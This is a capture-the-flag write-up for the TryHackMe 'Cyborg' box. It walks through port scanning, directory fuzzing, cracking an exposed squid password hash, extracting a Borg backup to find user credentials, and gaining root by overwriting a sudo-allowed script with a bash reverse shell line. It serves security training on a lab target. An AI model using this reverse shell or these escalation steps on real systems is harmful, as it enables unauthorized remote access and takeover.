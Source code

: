 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Cyborg
# DESCRIPTION       . A box involving encrypted archives, source code analysis and more.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/cyborgt8
```

```bash
sudo nmap -sSVC -T5 10.10.143.145 -p- -oN cyborg
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dbb270f307ac32003f81b8d03a89f365 (RSA)
|   256 68e6852f69655be7c6312c8e4167d7ba (ECDSA)
|_  256 562c7992ca23c3914935fadd697ccaab (ED25519)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- I have started a fuzzer while the nmap scan was running.

```
ffuf -u http://10.10.143.145/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100
```

```
admin                   [Status: 301, Size: 314, Words: 20, Lines: 10]
etc                     [Status: 301, Size: 312, Words: 20, Lines: 10]
```

- Inside `/etc` we find a directory called `squid` containing two files, `passwd` and `squid.conf`. 

```squid.conf
auth_param basic program /usr/lib64/squid/basic_ncsa_auth /etc/squid/passwd
auth_param basic children 5
auth_param basic realm Squid Basic Authentication
auth_param basic credentialsttl 2 hours
acl auth_users proxy_auth REQUIRED
http_access allow auth_users
```

```passwd
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
```

- We got the hash for whatever is `music_archive`.

- Running a simple `john` against this file reveals the password.

```
squidward        (music_archive)     
```

- The `admin` page has some information laying around, a stupid conversation - but the piece of information that matters to us is located in `Archive - Download`.

- We will download a `archive.tar` file that can be unzipped using `tar -xf`. It contains a folder called `home`. 

- By navigating to `/home/field/dev/final_archive` all we can find is some files that aren't of much use to us - in this form, at least.

```
config  data  hints.5  index.5  integrity.5  nonce  README
```

```README
This is a Borg Backup repository.
See https://borgbackup.readthedocs.io/
```

- So we know this is a Borg Backup. After some googling around, I found out that it can be easily installed and `borg list [path]` can be used to list Borg Backups in a certain path.

- Using `borg list /home/field/dev/final_archive` will ask for a passphase, which is the password found above.

```
music_archive                        Tue, 2020-12-29 16:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]
```

- It seems that there's one Borg Backup. Let's extract it.

```
borg extract -v --list home/field/dev/final_archive/::music_archive
```

```
home/alex
home/alex/.bashrc
home/alex/.bash_logout
home/alex/.profile
home/alex/Music
home/alex/.bash_history
home/alex/.dbus
home/alex/.dbus/session-bus
home/alex/.dbus/session-bus/c707f46991feb1ed17e415e15fe9cdae-0
home/alex/.config

{trimmed for readability}

home/alex/.config/ibus
home/alex/.config/ibus/bus
home/alex/Documents
home/alex/Documents/note.txt
home/alex/Public
home/alex/Videos
home/alex/Desktop
home/alex/Desktop/secret.txt
home/alex/Downloads
home/alex/Templates
home/alex/Pictures
```

```bash
find . -name *.txt 

./Desktop/secret.txt
./Documents/note.txt
```

```secret
shoutout to all the people who have gotten to this stage whoop whoop!"
```

```note.txt
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:{redacted}
```

- Alright, so we have access to the box now. 

```
sudo -l

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

- A simple cat reveals the source code of the script, which, in short, does backup of .mp3 files.

- However, a `ls -l` reveals that this file is owned by us, so we can replace its content with anything we like. And ...  you know what we like :) 

- **NOTE:** Use `chmod` to allow write permissions on the file first.

- After replacing the content with a bash reverse shell, run the script as `sudo /etc/mp3backups/backup.sh`

```backup.sh
#!/bin/bash
sh -i >& /dev/tcp/ip/port 0>&1
```

- The last flag is in `/root/root.txt`